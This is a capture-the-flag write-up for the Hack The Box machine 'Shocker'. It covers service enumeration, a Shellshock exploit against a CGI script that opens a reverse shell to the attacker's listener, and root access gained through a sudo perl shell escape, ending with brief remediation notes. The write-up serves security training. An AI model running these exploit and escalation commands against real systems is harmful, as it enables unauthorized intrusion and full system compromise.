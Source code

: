```yaml
---
layout: post
category: writeup
---
```


## Machine Info

- Name: Shocker
- Description: Shocker, while fairly simple overall, demonstrates the severity of the renowned Shellshock exploit, which affected millions of public-facing servers.
- Difficulty: Easy
## Initial Access

Nmap
```bash
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.18 (Ubuntu)
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

From this info I can try to visit the page:

![[assets/images/2024-01-19-shocker-writeup-image-1.png]]

Nothing too crazy stands out, I can try to check for dirsearch while I enumerate this apache version:
```bash
HTB dirsearch -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 64 -e sh -f -u  http://10.10.10.56/cgi-bin/ 

  _|. _ _  _  _  _ _|_    v0.4.2
 (_||| _) (/_(_|| (_| )

Extensions: sh | HTTP method: GET | Threads: 64 | Wordlist size: 661635

Output File: /home/kali/.dirsearch/reports/10.10.10.56/-cgi-bin-_24-01-19_09-25-34.txt

Error Log: /home/kali/.dirsearch/logs/errors-24-01-19_09-25-34.log

Target: http://10.10.10.56/cgi-bin/

[09:25:35] Starting: 
[09:25:35] 200 -  118B  - /cgi-bin/user.sh
```

I can see that we have /cgi-bin/user.sh, this is screaming shellshock so I'll try to exploit it:

```bash
HTB python2 34900.py payload=reverse rhost=10.10.10.56 rport=80 lhost=10.10.14.14 lport=443 pages=/cgi-bin/user.sh
[!] Started reverse shell handler
[-] Trying exploit on : /cgi-bin/user.sh
[!] Successfully exploited
[!] Incoming connection from 10.10.10.56
10.10.10.56> whoami
shelly

10.10.10.56>
```

We got a shell!
## Privilege Escalation

Checking sudo permissions:
```bash
10.10.10.56> sudo -l
Matching Defaults entries for shelly on Shocker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User shelly may run the following commands on Shocker:
    (root) NOPASSWD: /usr/bin/perl
```

```bash
shelly@Shocker:/usr/lib/cgi-bin$  sudo perl -e 'exec "/bin/sh";' 
# whoami
root
```

Very simple root!
## Beyond Root

Now since I can't update the machine, what I'll do is get rid of the vulnerable script user.sh

As far as root goes, I'll get rid of the sudo perl usage